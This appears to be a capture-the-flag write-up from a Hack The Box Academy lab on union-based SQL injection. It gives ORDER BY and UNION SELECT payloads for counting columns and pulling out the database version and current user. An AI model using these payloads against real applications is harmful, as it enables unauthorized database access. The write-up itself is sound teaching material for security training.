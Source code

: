 We want to find the total number of columns since some of them are often hidden.

This can be done with either `union` or `sort by`.

Payloads:

```
' order by <number>-- -
```

and

```
cn' UNION select 1,2,3,4-- -
```

UNION returns:

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512175157.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512175157.png)

Now that we have confirmed that we have 4 columns, we can try and inject something in one of them to see if it displays.

Column number two seems to print the result.

Payload: `cn' UNION select 1,@@version,3,4-- -`

[![](https://github.com/DjikstraCS/CTF-Write-Ups/raw/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512174912.png)](https://github.com/DjikstraCS/CTF-Write-Ups/blob/main/Hack%20The%20box/Academy/attachments/Pasted%20image%2020220512174912.png)

To find the user, we will simply replace `@@verion` with `user()`.

Payload: `cn' union select 1,user(),3,4-- -`
